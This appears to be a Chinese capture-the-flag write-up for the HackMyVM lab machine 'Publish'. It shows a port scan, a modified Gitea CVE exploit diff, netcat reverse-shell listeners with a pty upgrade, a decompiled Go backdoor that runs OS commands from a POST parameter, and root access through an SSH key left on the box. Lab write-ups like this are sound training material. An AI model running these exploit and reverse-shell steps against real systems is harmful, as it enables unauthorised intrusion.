








端口扫描 1 2 3 4 5 6 7 8 9 10 11 12 13 ┌──(kali㉿kali)-[~/HMV/publish] └─$ sudo nmap -p- 192.168.0.140 -oA ports Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-02 21:51 CST Nmap scan report for publish.dsz (192.168.0.140) Host is up (0.00053s latency). Not shown: 65532 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http 8080/tcp open http-proxy MAC Address: 82:02:0F:0F:4A:08 (Unknown) Nmap done : 1 IP address (1 host up) scanned in 1.43 seconds
web 渗透 看一下 80 端口：

是个 Gitea ，可以直接注册一个账号来使用。
之前看到过 Gitea 有 CVE ，网上找找 poc ，发现这个 github 页面 有现成的利用脚本，拿下来尝试进行利用：

服务器返回了一个错误，说是需要一个 [SHA] ，还让我去 http://publish.dsz/api/swagger 自己查看一下。
猜测 publish.dsz 就是该网站的域名，去查看一下它的 /api/swagger ，在里面发现我们要访问的 diffpatch 页面的请求是有 sha 参数的：

把脚本改一下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 @@ def exploit_one(target: Target, command: str, git: str, dry_run: bool = False) -> Result: - body = { - "content": build_patch(build_hook(command, leak_ref)), - "message": "poc", - "branch": "main", "new_branch": "main", - } - ep = ( - f"/api/v1/repos/{urllib.parse.quote(owner, safe='')}/" - f"{urllib.parse.quote(repo, safe='')}/diffpatch" - ) - for cycle in (1, 2): - sc, resp = client.api("POST", ep, body) - if sc != 201: - raise PocError(f"payload cycle {cycle} failed") - try: - _ = resp["commit"]["sha"] - except (KeyError, TypeError) as exc: - raise PocError(f"cycle {cycle} no commit") from exc + body = { + "content": build_patch(build_hook(command, leak_ref)), + "message": "poc", + "branch": "main", "new_branch": "main", + } + ep = ( + f"/api/v1/repos/{urllib.parse.quote(owner, safe='')}/" + f"{urllib.parse.quote(repo, safe='')}/diffpatch" + ) + for cycle in (1, 2): + # 获取当前main分支最新commit sha + sc_branch, branch_data = client.api( + "GET", f"/api/v1/repos/{owner}/{repo}/branches/main" + ) + if sc_branch != 200: + raise PocError("Failed to fetch main branch info") + sha = branch_data["commit"]["id"] + body["sha"] = sha # 动态赋值 + sc, resp = client.api("POST", ep, body) + if sc != 201: + raise PocError(f"payload cycle {cycle} failed") + try: + _ = resp["commit"]["sha"] + except (KeyError, TypeError) as exc: + raise PocError(f"cycle {cycle} no commit") from exc
修改后进行利用：

可以看到命令执行成功了，反弹 shell 即可：
1 2 3 4 5 6 7 8 9 ┌──(kali㉿kali)-[~] └─$ nc -nvlp 1234 Listening on 0.0.0.0 1234 Connection received on 10.119.243.244 33140 python3 -c "import pty;pty.spawn('/bin/bash')" git@Publish:/var/lib/gitea/data/tmp/local-repo/upload.git3564290124$ id id uid=101(git) gid=103(git) groups =103(git) git@Publish:/var/lib/gitea/data/tmp/local-repo/upload.git3564290124$
提权 我们目前是 git 用户，虽然有家目录 /home/git ，但是里面没有 user flag，还有一个叫 todd 的用户。
既然 git 有家目录，我们可以尝试把自己的公钥写入 .ssh/authorized_keys 中，然后进行 ssh 登录，这样可交互性更好。
ssh 登录之后，ps aux 发现 todd 在运行一个程序：
1 todd 574 0.0 0.8 1266976 7960 ? Ssl 03:25 0:00 /opt/main-amd64
这是一个 ELF 文件，我们可读，拿到本地用 IDA 进行分析：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 void __golang main_main () { database_sql_DB *v0; error v1; interface_ v2; database_sql_DB *v3; int v4; database_sql_DB **v5; database_sql_DB *v6; interface_ *v7; _QWORD v8[2 ]; _QWORD v9[2 ]; _QWORD v10[4 ]; _slice_interface_ v; error v12; error v13; string v14; string v15; _slice_interface_ v16; _slice_interface_ v17; v.cap = (int )v2._type; v14.str = (uint8 *)"mysql" ; v14.len = 5LL ; v15.str = (uint8 *)"admin:rWb4ok7dNoFVbNrk0v2o@tcp(127.0.0.1:3306)/user" ; v15.len = 51LL ; database_sql_Open(v14, v15, v0, v1); if ( *(_DWORD *)&runtime_writeBarrier.enabled ) { runtime_gcWriteBarrier2(); *v5 = v3; v5[1 ] = v6; } main_db = v3; v.array = (interface_ *)MEMORY[0xD ]; v.len = v4; v16.array = (interface_ *)&v; v16.len = 1LL ; v16.cap = 1LL ; log_Fatal(v16); v12.tab = (internal_abi_ITab *)main_main_deferwrap1; v9[0 ] = main_main_deferwrap1; v9[1 ] = main_db; v.cap = (int )v9; v16.array = (interface_ *)&go_string__ptr_; v16.len = 1LL ; net_http_HandleFunc(*(string *)&v16.array , off_8ED908); v16.array = (interface_ *)&byte_8C4425; v16.len = 6LL ; net_http_HandleFunc(*(string *)&v16.array , off_8ED910); v16.array = (interface_ *)&byte_8C544B; v16.len = 7LL ; net_http_HandleFunc(*(string *)&v16.array , off_8ED918); v8[0 ] = &e; v8[1 ] = &off_8F0500; v10[0 ] = main_main_Println_func1; v10[2 ] = 1LL ; v10[3 ] = 1LL ; v10[1 ] = v8; v16.len = 0LL ; log__ptr_Logger_output(log_std, 0LL , 2LL , (func_slice_uint8__slice_uint8)v10, v12, v13); runtime_newobject((internal_abi_Type *)&stru_8B7F60, 0LL ); v16.array ->data = (void *)5 ; v16.array ->_type = (internal_abi_Type *)":8080" ; v16.array [1 ] = v2; net_http__ptr_Server_ListenAndServe((net_http_Server *)v16.array , *(error *)&v16.len); *(interface_ *)&v.array = v2; if ( v7 ) v7 = (interface_ *)v7->data; v.array = v7; v.len = 0LL ; v17.array = (interface_ *)&v; v17.len = 1LL ; v17.cap = 1LL ; log_Fatal(v17); (*(void (**)(void ))v.cap)(); }
咱们只用看懂两行，第一行是 v15.str = (uint8 *)"admin:rWb4ok7dNoFVbNrk0v2o@tcp(127.0.0.1:3306)/user"; ，一看就是这玩意用 admin 这个账号登录了开在本地 3306 端口的 mysql 服务；第二行是 v16.array->_type = (internal_abi_Type *)":8080";，很显然，8080 是一个端口号，又想到一开始我们 nmap 扫描出来靶机开放了 8080 端口，很显然这个服务就是跑在 8080 端口的。
查看 8080 端口：

有一个 search 功能，测试发现有 SQL 注入，但是没有什么用，输入正确的用户名（例如 todd）就会返回他的密码；然后有一个 login 功能，登录之后也没有什么特殊的功能。
于是就继续分析那个 ELF 程序，在写 search 功能的地方，我发现了一个有趣的东西：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 if ( *(_DWORD *)r->Method.str == 'TSOP' ) { ra = r; v5 = r; w.data = (void *)&byte_8C65B8; v6 = 8LL ; net_http__ptr_Request_FormValue(v5, *(string *)&w.data, v2); if ( &byte_8C65B8 ) { v49 = 2LL ; a.cap = (int )&stru_8C2E72.len + 6 ; v51 = &byte_8C65B8; v50 = v7; v66.str = (uint8 *)&stru_8C2E72.len + 4 ; v66.len = 2LL ; v71.array = (string *)&a.cap; v71.len = 2LL ; v71.cap = 2LL ; os_exec_Command(v66, v71, v8); os_exec__ptr_Cmd_CombinedOutput((os_exec_Cmd *)v66.str, *(_slice_uint8 *)&v66.len, *(error *)&v71.cap); v66.len = (int )v66.str; runtime_slicebytetostring(0LL , v66.str, 2LL , *(string *)&v71.len); a0 = v66.str; v66.str = (uint8 *)MEMORY[0x1A ](2LL ); v71.array = (string *)v66.len; v71.len = (int )&byte_8C65C0; v71.cap = 8LL ; v60 = v66; v66.len = (int )a0; runtime_concatstring3(0LL , *(string *)&v66.len, *(string *)&v71.len, v60, v65); v71.array = 0LL ; v71.len = 0LL ; v71.cap = (int )v66.str; v9 = a0; v66.str = wa; v66.len = (int )w_8; main_render((net_http_ResponseWriter)v66, *(main_PageData *)&v71.array ); return ; } r = ra; } } net_url__ptr_URL_Query(r->URL, (net_url_Values)w.data); v10 = &byte_8EEC30; v11 = 1LL ; net_url_Values_Get(v12, *(string *)&v10, v2); if ( &byte_8EEC30 ) { *(_OWORD *)&a.array = v3; runtime_convTstring(*(string *)&v13, v14); a.array = (interface_ *)&e; a.len = v15; v67.str = (uint8 *)"SELECT id, username, password FROM user WHERE username LIKE '%%%s%%'" ;
这玩意我们也只用看懂两行，第一行是 if ( *(_DWORD *)r->Method.str == 'TSOP' ) ，这玩意很明显是说如果我们的请求方法是 POST ，它就会执行下面的代码；第二行是 os_exec_Command(v66, v71, v8); ，很显然这哥们是在执行操作系统的命令，相当于 POST 请求其实就是一个后门。
再简单分析一下，&byte_8C65B8 是它取的地址，里面写着 ll104567 ，很显然这就是我们要传的参数名。
进行尝试：

可以看到他有命令回显，反弹 shell 即可：
1 2 3 4 5 6 7 8 9 ┌──(kali㉿kali)-[~] └─$ nc -nvlp 1234 Listening on 0.0.0.0 1234 Connection received on 10.119.243.244 41996 python3 -c "import pty;pty.spawn('/bin/bash')" todd@Publish:/$ id id uid=1000(todd) gid=1000(todd) groups =1000(todd),100(users ) todd@Publish:/$
继续用刚才的方法，登录 ssh 。
接下来我们需要提权到 root ，这里我测试了很久，一直在寻找任何可以利用的信息，但都没有结果。
最后跟作者聊了一下，作者说我“只需要一步”，我就又重新翻了一遍我看过的内容。
一开始看到 /home/todd/.ssh/id_rsa 的时候，我丝毫没有怀疑过它的作用，绝对就是 todd 这个用户的私钥。但我现在又想想，不会这个私钥是 root 的吧？
于是就有了下面的这个操作：

原来这个私钥是 root 的，我完全没有想到！
于是就这样拿到了 root 。
1 2 3 4 5 root@Publish:~# cat /home/todd/user.txt flag{user-71e8307f0001862b3dede2da14ed38be} root@Publish:~# cat /root/root.txt flag{root-093a441b0ca7c95a566ce26bba74b00b} root@Publish:~#
PS 事后跟作者聊天，发现不用 gitea 的 CVE 也可以做。
原来在注册 gitea 、登录之后，是有一个已经被创建好的仓库的：

里面有两个程序，main 和 main-amd64 ，还有一个源代码 main.go 。
将这个仓库克隆下来，不难发现，它就是运行在 8080 端口上的程序。但现在有两个 ELF 程序，而且 md5 发现他们两个还不一样。于是都拿到 IDA 进行分析，就会发现 main-amd64 是加了后门之后的版本。
所以，其实也可以不用 gitea 的 CVE 先获得 git 的 shell ，直接通过公开仓库获取 8080 正在运行的程序，就可以拿到 todd 用户的 shell 了。